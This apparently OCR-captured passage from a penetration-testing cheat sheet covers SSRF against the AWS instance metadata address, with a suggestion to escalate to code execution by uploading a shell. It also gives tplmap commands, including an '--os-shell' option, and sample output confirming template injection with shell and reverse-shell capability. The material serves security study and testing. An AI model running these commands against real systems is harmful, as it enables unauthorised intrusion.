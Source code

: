 ```powershell
#https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/ssrf

Amazon AWS has a internal metadata service which can be queired from most instances which gives us a great local service to try query if we believe the underlying platform is being serviced by AWS such as Elastic Beanstalk etc.

Reference: https://medium.com/@GeneralEG/escalating-ssrf-to-rce-f28c482eb8b9


169.254.169.254 - Local EC2 Instance Address to Query

From here it can be very easy to escalate to RCE by gaining read/write on the bucket and uploading a shell.

```






#### GraphQL Injection

```powershell
#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection
More on this soon :) 

```


#### Server Side Template Injection (SSTI)

```powershell
#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
More on this soon :) 

My primary goto for exploiting SSTI issues is tplmap which is really just sqlmap for template injection vulnerabilities.

#https://github.com/epinna/tplmap

$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'

$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
```